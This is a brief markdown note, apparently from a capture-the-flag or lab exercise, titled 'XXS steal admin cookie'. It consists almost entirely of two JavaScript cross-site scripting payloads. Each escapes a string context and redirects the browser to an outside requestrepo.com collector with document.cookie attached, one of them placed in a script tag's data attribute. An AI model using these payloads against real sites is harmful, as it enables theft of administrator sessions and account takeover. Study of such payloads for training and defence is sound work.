 ## XXS steal admin cookie

### payload
```javascript
a');document.location="http://f5kkqikm.requestrepo.com?c="+document.cookie;//
```

```javascript
<script id='debug' src='/static/js/thing.js' data-ilovemass="a');document.location='http://f5kkqikm.requestrepo.com?c='+document.cookie;//"></script>
```